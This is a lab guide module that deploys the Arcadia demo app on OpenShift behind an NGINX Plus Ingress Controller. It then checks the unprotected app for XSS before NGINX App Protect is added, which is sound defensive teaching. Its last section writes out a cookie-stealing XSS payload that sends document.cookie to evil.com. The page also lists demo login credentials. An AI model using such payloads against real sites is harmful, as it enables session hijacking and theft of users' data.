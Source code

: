 == Access Arcadia App without NGINX App Protect to establish a baseline

== Cleanup Process

Upon the completion of Lab Module 1, it's necessary to tidy up the lab
environment. Please follow the steps mentioned below.

Execute the following commands in the bash terminal:

[source,sh,role=execute]
----
oc delete virtualserver arcadia
oc delete -f arcadia.yml 
----


== Deploy the Arcadia Application into Kubernetes

[NOTE]
.Note
====
The Arcadia Financial application is the same application we introduced
in Module 1, but a different version with enhanced features which will
be used for our security lab exercises.
====

Before we can access the Arcadia application, we need to deploy it into
our OpenShift cluster. To do this, we'll use a single manifest file
that contains the necessary resources, such as Kubernetes deployments
for the four Docker containers and Kubernetes services for the four
Docker containers.

To get the YAML file, we'll use the following command in our terminal
window:

[source,sh,role=execute]
----
wget https://raw.githubusercontent.com/ericzji/nginx-openshift-lab/main/docs/class1/module2/templates/arcadia-all.yaml
----

Once we have the YAML file, we can apply it to our Kubernetes cluster
with the following command:

[source,sh,role=execute]
----
oc apply -f ./arcadia-all.yaml
----

We can check that our Arcadia application is running by using the
following command in our terminal window:

[source,sh,role=execute]
----
oc get svc
----

This will show us the services running in our cluster, including those related to the Arcadia application.

[source,texinfo,subs="attributes"]
----
$ oc get svc
NAME         TYPE           CLUSTER-IP      EXTERNAL-IP                            PORT(S)        AGE
app2         NodePort       172.30.134.98   <none>                                 80:30362/TCP   3m13s
app3         NodePort       172.30.45.51    <none>                                 80:31662/TCP   3m13s
backend      NodePort       172.30.83.103   <none>                                 80:31584/TCP   3m13s
kubernetes   ClusterIP      172.30.0.1      <none>                                 443/TCP        3h41m
main         NodePort       172.30.25.227   <none>                                 80:30511/TCP   3m13s
openshift    ExternalName   <none>          kubernetes.default.svc.cluster.local   <none>         3h31m
----

== Export the NGINX Ingress Controller services

Interacting with the NGINX Ingress Controller is  easier if we expoort the service External IPs into system variables. 
This allows for templating to take place when we expose our applications.

[NOTE]
.Note
====
If you completed this step in Module 1, you can skip it here. You can `cat .bashrc` if you need to check it is still there.
====

Paste the below into the terminal and press enter:

[source,sh,role=execute]
----
echo -e "\nexport nginx_ingress=\"$(oc get svc my-nginx-ingress-controller -n nginx-ingress -o jsonpath='{.status.loadBalancer.ingress[0].hostname}')\"\n" >> ~/.bashrc &&
echo -e "\nexport dashboard_nginx_ingress=\"$(oc get svc dashboard-nginx-ingress -n nginx-ingress -o jsonpath='{.status.loadBalancer.ingress[0].hostname}')\"\n" >> ~/.bashrc && source ~/.bashrc
----

You can check the domain name with the `echo` command

[source,sh,role=execute]
----
 echo "$nginx_ingress/"
----



== Publish Arcadia app with NGINX Plus Ingress Controller

Now that we have our Arcadia application deployed in our OpenShift
cluster, we need to publish it using the NGINX Plus Ingress Controller.
We'll do this by re-creating the NGINX Ingress Controller with Basic
HTTP using the following command in our terminal window:

This creates a VirtualServer resource for our Arcadia
application, which includes the host for the NGINX Ingress Controller
and the upstreams for the different microservices. We can now access our
Arcadia application externally using the NGINX Ingress Controller URL,
which can be found by running the following command in our terminal
window:

[source,sh,role=execute]
----
cat << EOF | envsubst > arcadia-virtualserver.yml
apiVersion: k8s.nginx.org/v1
kind: VirtualServer
metadata:
  name: arcadia
spec:
  host: $nginx_ingress
  upstreams:
  - name: main
    service: main
    port: 80
  - name: app2
    service: app2
    port: 80
  - name: app3
    service: app3
    port: 80
  routes:
  - path: /
    action:
      pass: main
  - path: /api
    action:
      proxy:
        upstream: app2
  - path: /app3
    action:
      proxy:
        upstream: app3
EOF
----

Use the `cat` command to view the contents of the file and verify the `host` line matches your nginx_ingress external domain name

[source,sh,role=execute]
----
cat arcadia-virtualserver.yml
----

Next, apply the yaml config

[source,sh,role=execute]
----
oc apply -f arcadia-virtualserver.yml
----


We can know go to the URL and  access our Arcadia application by opening it in a web browser.
Some browsers may try to redirect to https, so if you get a `404` error make sure you are using http

[source,sh,role=execute]
----
 echo "http://$nginx_ingress/"
----

You can also check with a curl command, but won't be able to complete the login below.

[source,sh,role=execute]
----
curl -k http://$nginx_ingress
----

You should be presented with the Main page, click on Login and enter the
credentials as below.

[source,]
----
Username: matt
Password: ilovef5
----

When you click on Log me in, you should be presented with the Arcadia
application that consists of four microservices:

image:image10.png[image]

Congratulations!

You have now successfully deployed the application in the K8s cluster and
published it externally using the NGINX Plus Ingress controller.

== Is our application protected against Layer 7 attacks?

Before we can protect our Arcadia application with NGINX App Protect, we
need to check if it's currently vulnerable to Layer 7 attacks. We can do
this by executing a simple XSS attack, which is a well-known OWASP top
10 attack.

To perform the XSS attack, we can launch our browser and append `?a=<script>` to the end of the application URL. +
If the request is allowed, then our application is vulnerable to XSS attacks.

image:image11.png[image]

We can further test this by appending the following to the application URL, which will attempt to steal our document cookie.
If this request is  allowed, then a bad actor could potentially steal sensitive information from our application user. +

[source,sh,role=execute]
----
?item='><script>document.location='http://evil.com/steal'+document.cookie</script>
----

image:image12.png[image]

Since our application is currently vulnerable to Layer 7 attacks, we'll
need to protect it using NGINX App Protect in the following Lab.
